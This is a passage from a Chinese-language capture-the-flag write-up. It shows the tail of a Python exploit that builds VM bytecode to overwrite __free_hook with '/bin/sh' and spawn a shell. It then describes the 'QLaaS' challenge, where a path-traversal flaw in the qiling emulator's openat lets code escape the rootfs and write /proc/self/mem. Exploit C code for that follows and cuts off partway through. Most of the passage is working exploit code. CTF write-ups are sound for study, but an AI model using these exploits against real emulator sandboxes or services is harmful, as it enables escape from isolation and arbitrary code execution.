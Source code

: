 ```python 


# global area -> &__free_hook
code += p32(STORE) + p32(-993&0xffffffff)
code += p32(STORE) + p32(-990&0xffffffff)
code += p32(STORE) + p32(-992&0xffffffff)

code += p32(LOAD) + p32(-992&0xffffffff)
code += p32(LOAD) + p32(-990&0xffffffff)

code += p32(GSTORE) + p32(2)
code += p32(GSTORE) + p32(3)

# /bin/sh\x00 => 0x68732f6e69622f
code += p32(PUSH) + p32(0x6e69622f)
code += p32(PUSH) + p32(0x68732f)

code += p32(GSTORE) + p32(1)
code += p32(GSTORE) + p32(0)

# nop padding
code += p32(HALT)

code = code.ljust(512, b"\x00")

p.send(code)

p.interactive()
```

### QLaaS

题目接收一个可执行文件，并在qiling环境中执行。题目考察点在qiling环境的逃逸。
qiling是基于unicorn的实现的二进制程序执行环境，自己实现了syscall、binary loader等操作，使其能够跨架构、跨平台执行可执行程序。
通过代码审计可以发现，其实现openat系统调用时缺少对路径穿越的判断，从而可以绕出rootfs。
利用路径穿越，我们可以对/proc/self/mem进行读写并getshell

exp.c:

```c 
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <stdlib.h>


int ql_open(char* abs_path, long flag){
        int fd,dir_fd;

        char path[128] = "../../../../../../../..";
        strcat(path, abs_path);
        printf("path for qiling is %s\n",path);
        dir_fd  = syscall(2,".",O_RDONLY,0666);
        fd  = syscall(257,dir_fd, path ,flag,0666);
        close(dir_fd);
        return fd;
}
int main(){
        int  fd;
        int file_size;
        unsigned long ret,off;
```
